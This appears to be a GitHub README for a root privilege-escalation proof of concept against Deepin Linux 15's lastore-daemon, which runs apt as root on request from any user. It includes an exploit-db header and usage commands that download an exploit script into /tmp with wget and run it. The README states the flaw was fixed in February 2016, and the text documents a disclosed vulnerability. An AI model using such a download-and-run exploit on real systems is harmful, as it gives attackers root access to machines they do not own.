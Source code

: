 # privilege escalation POC for deepin 15

## Notice: 
* This POC is Invalid result from system updates in 20160225

## Vulnerability Description
* In Deepin Linux 15, they designed a daemon (called lastore-daemon) based on dbus and apt to support deepin-appstore.
* Lastore-daemon runs with root privilege to run apt-get commands and listens  to dbus message from every user.
* So, we can send the package name along with some options to lastore-daemon to install or remove any package, even to destroy the host system.
* Apart from that, if we prepare a malicious package and try to cheat lastore-daemon into installing it, then anyone can have root privilege.



## Header for [exploit-db](https://www.exploit-db.com/exploits/39433/)
		Exploit Title: Lastore-daemon in Deepin 15 results in privilege escalation
 		Date: 20160208
 		Exploit Author: King's Way <io[AT]stdio.io>
	 	Vendor Homepage: http://www.deepin.org
		Software Link: http://cdimage.linuxdeepin.com/releases/15.1/deepin-15.1-amd64.iso
		Version: Deepin 15 & 15.1
 		Tested on: Deepin 15 & 15.1
 		CVE : null

## Ps
Hex data of the homemade package have been written in a single python file, thus all you need to do is:
	
	$ wget https://raw.githubusercontent.com/kings-way/deepinhack/master/deepinhack.py -O  /tmp/deepinhack.py
	
	$ python /tmp/deepinhack.py

Of course, the deb package and the initial python code have been uploaded too.
